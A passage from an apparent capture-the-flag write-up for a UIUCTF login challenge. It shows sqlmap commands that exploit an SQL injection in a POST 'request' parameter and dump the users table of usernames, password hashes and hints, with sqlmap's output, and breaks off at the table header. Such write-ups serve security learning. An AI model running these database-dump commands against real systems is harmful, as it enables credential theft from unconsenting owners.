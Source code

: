 **NOTE**: We can also get the password hints by entering the corresponding username with an incorrect password.

![Password Hint](Images/password_hint.png)
## Automating SQL Injection with SQLMap
Alternatively, instead of manually crafting a payload, we can use sqlmap - a tool that automatically does SQL injection. We can use it with the following command:
```
sqlmap -u https://login.chal.uiuc.tf/search --dump-all --method=POST --data="request=a" --level=3
```
Running this command gives us the following output
```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (3) and risk (1) values? [Y/n] y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
...
POST parameter 'request' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
...
[11:39:04] [INFO] sqlmap will dump entries of all tables from all databases now
[11:39:04] [INFO] fetching tables for database: 'SQLite_masterdb'
[11:39:04] [INFO] fetching number of tables for database 'SQLite_masterdb'
[11:39:04] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:39:04] [INFO] retrieved: 1
[11:39:05] [INFO] retrieved: users
[11:39:05] [INFO] retrieved: CREATE TABLE users (  username text primary key not null,  password_hash text not null,  hint text not null,  bio text not null)
[11:39:16] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
[11:39:16] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[11:39:16] [INFO] retrieved: 5
```
Next, we dump out all the contents of the users table
```
sqlmap -u http://login.chal.uiuc.tf/search --dump-all -T users --method=POST --data="request=a" --level=3
```
Running this command dumps the table and we get all its contents:
```
+---------------------+--------------------------------------------------------------------------------+----------+----------------------------------+
| bio                 | hint                                                                           | username | password_hash                    |
```